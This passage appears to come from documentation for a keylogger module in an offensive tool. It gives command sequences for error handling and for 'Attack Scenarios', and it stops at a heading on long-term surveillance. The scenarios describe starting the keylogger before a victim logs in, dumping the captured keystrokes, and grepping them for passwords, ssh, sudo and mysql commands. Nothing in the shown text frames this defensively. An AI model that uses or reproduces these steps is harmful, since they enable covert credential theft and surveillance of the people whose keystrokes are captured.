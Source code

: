 ### 4. Error Handling

```bash
# Always check status before dump
keylog_status

# If running=false but should be:
keylog_start

# If buffer_size > 0:
keylog_dump  # Save before data loss

# Always stop cleanly
keylog_stop
```

## Attack Scenarios

### Scenario 1: Credential Harvesting

```bash
# 1. Start keylogger before user logs in
keylog_start

# 2. Wait for user to type credentials
# User types username and password

# 3. Download captured credentials
keylog_dump

# 4. Analyze for credentials
grep -i "password\|login\|user" keylog_dump_*.txt
```

### Scenario 2: Command Monitoring

```bash
# 1. Start monitoring
keylog_start

# 2. User works with terminal/shell
# Captures all commands executed

# 3. Download after session
keylog_dump

# 4. Extract sensitive commands
grep -i "ssh\|mysql\|sudo\|password" keylog_dump_*.txt
```

### Scenario 3: Long-term Surveillance
